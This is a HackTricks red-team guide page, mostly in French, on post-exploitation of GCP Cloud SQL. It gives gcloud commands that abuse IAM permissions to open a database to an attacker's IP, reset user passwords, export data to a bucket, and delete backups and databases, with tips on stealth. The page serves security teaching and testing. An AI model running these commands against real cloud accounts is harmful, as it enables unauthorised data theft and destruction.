 # GCP - Cloud SQL Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Cloud SQL

Pour plus d'informations sur Cloud SQL, consultez :

{% content-ref url="../gcp-services/gcp-cloud-sql-enum.md" %}
[gcp-cloud-sql-enum.md](../gcp-services/gcp-cloud-sql-enum.md)
{% endcontent-ref %}

### `cloudsql.instances.update`, ( `cloudsql.instances.get`)

Pour se connecter aux bases de données, vous **avez juste besoin d'accéder au port de la base de données** et de connaître le **nom d'utilisateur** et le **mot de passe**, il n'y a pas d'exigences IAM. Donc, un moyen facile d'accéder, en supposant que la base de données a une adresse IP publique, est de mettre à jour les réseaux autorisés et **permettre à votre propre adresse IP d'y accéder**.
```bash
# Use --assign-ip to make the database get a public IPv4
gcloud sql instances patch $INSTANCE_NAME \
--authorized-networks "$(curl ifconfig.me)" \
--assign-ip \
--quiet

mysql -h <ip_db> # If mysql

# With cloudsql.instances.get you can use gcloud directly
gcloud sql connect mysql --user=root --quiet
```
Il est également possible d'utiliser **`--no-backup`** pour **perturber les sauvegardes** de la base de données.

Comme ce sont les exigences, je ne suis pas complètement sûr de ce que sont les permissions **`cloudsql.instances.connect`** et **`cloudsql.instances.login`**. Si vous le savez, envoyez une PR !

### `cloudsql.users.list`

Obtenez une **liste de tous les utilisateurs** de la base de données :
```bash
gcloud sql users list --instance <intance-name>
```
### `cloudsql.users.create`

Cette permission permet de **créer un nouvel utilisateur à l'intérieur** de la base de données :
```bash
gcloud sql users create <username> --instance <instance-name> --password <password>
```
### `cloudsql.users.update`

Cette permission permet de **mettre à jour un utilisateur à l'intérieur** de la base de données. Par exemple, vous pourriez changer son mot de passe :

{% code overflow="wrap" %}
```bash
gcloud sql users set-password <username> --instance <instance-name> --password <password>
```
{% endcode %}

### `cloudsql.instances.restoreBackup`, `cloudsql.backupRuns.get`

Les sauvegardes peuvent contenir **de vieilles informations sensibles**, il est donc intéressant de les vérifier.\
**Restaurer une sauvegarde** dans une base de données :
```bash
gcloud sql backups restore <backup-id> --restore-instance <instance-id>
```
Pour le faire de manière plus discrète, il est recommandé de créer une nouvelle instance SQL et de récupérer les données là-bas au lieu de dans les bases de données actuellement en cours d'exécution.

### `cloudsql.backupRuns.delete`

Cette permission permet de supprimer des sauvegardes :
```bash
gcloud sql backups delete <backup-id> --instance <instance-id>
```
### `cloudsql.instances.export`, `storage.objects.create`

**Exporter une base de données** vers un Cloud Storage Bucket afin que vous puissiez y accéder depuis là :
```bash
# Export sql format, it could also be csv and bak
gcloud sql export sql <instance-id> <gs://bucketName/fileName> --database <db>
```
### `cloudsql.instances.import`, `storage.objects.get`

**Importer une base de données** (écraser) depuis un Cloud Storage Bucket :
```bash
# Import format SQL, you could also import formats bak and csv
gcloud sql import sql <instance-id> <gs://bucketName/fileName>
```
### `cloudsql.databases.delete`

Supprimer une base de données de l'instance de base de données :
```bash
gcloud sql databases delete <db-name> --instance <instance-id>
```
{% hint style="success" %}
Apprenez et pratiquez le hacking AWS :<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Formation Expert Red Team AWS (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Apprenez et pratiquez le hacking GCP : <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Formation Expert Red Team GCP (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenir HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop)!
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez-nous sur** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez des astuces de hacking en soumettant des PRs aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts github.

</details>
{% endhint %}
